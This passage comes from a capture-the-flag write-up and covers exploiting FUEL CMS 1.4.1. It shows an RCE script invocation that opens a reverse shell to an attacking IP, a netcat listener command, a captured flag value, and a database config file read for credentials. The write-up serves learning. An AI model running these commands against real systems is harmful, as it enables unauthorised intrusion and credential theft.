 - The source of this script can be found [here](https://github.com/ice-wzl/Fuel-1.4.1-RCE-Updated). 
- Using the following syntax, I was able to get a shell on the box:
```
python shell.py http://target-ip attacking-ip 8888
```

- On host for reverse shell:
```
nc -lnvp 8888
```

- Now that we have system access, we can grab the user flag:
	- flag.txt - 6470e394cbf6dab6a91682cc8585059b

## Privilege Escalation
- Back on the home page that we first discovered, we can see that there are some instructions regarding configuration. Specifically:
	- "Install the FUEL CMS database by first creating the database in MySQL and then importing the `fuel/install/fuel_schema.sql` file. After creating the database, change the database configuration found in `fuel/application/config/database.php` to include your hostname (e.g. localhost), username, password and the database to match the new database you created."
- We can check out the `/fuel/install/fuel_schema.sql` file and see if there are any relevant credentials. The contents of that file are:
```php
<?php
defined('BASEPATH') OR exit('No direct script access allowed');

/*
| -------------------------------------------------------------------
| DATABASE CONNECTIVITY SETTINGS
| -------------------------------------------------------------------
| This file will contain the settings needed to access your database.
|
| For complete instructions please consult the 'Database Connection'
| page of the User Guide.
|
| -------------------------------------------------------------------
| EXPLANATION OF VARIABLES
| -------------------------------------------------------------------
|
|	['dsn']      The full DSN string describe a connection to the database.
|	['hostname'] The hostname of your database server.
|	['username'] The username used to connect to the database
|	['password'] The password used to connect to the database
|	['database'] The name of the database you want to connect to
|	['dbdriver'] The database driver. e.g.: mysqli.
|			Currently supported:
|				 cubrid, ibase, mssql, mysql, mysqli, oci8,
|				 odbc, pdo, postgre, sqlite, sqlite3, sqlsrv
|	['dbprefix'] You can add an optional prefix, which will be added
|				 to the table name when using the  Query Builder class
|	['pconnect'] TRUE/FALSE - Whether to use a persistent connection
|	['db_debug'] TRUE/FALSE - Whether database errors should be displayed.
|	['cache_on'] TRUE/FALSE - Enables/disables query caching
|	['cachedir'] The path to the folder where cache files should be stored
|	['char_set'] The character set used in communicating with the database
|	['dbcollat'] The character collation used in communicating with the database
|				 NOTE: For MySQL and MySQLi databases, this setting is only used
| 				 as a backup if your server is running PHP < 5.2.3 or MySQL < 5.0.7
|				 (and in table creation queries made with DB Forge).
| 				 There is an incompatibility in PHP with mysql_real_escape_string() which
| 				 can make your site vulnerable to SQL injection if you are using a
| 				 multi-byte character set and are running versions lower than these.
| 				 Sites using Latin-1 or UTF-8 database character set and collation are unaffected.
|	['swap_pre'] A default table prefix that should be swapped with the dbprefix
```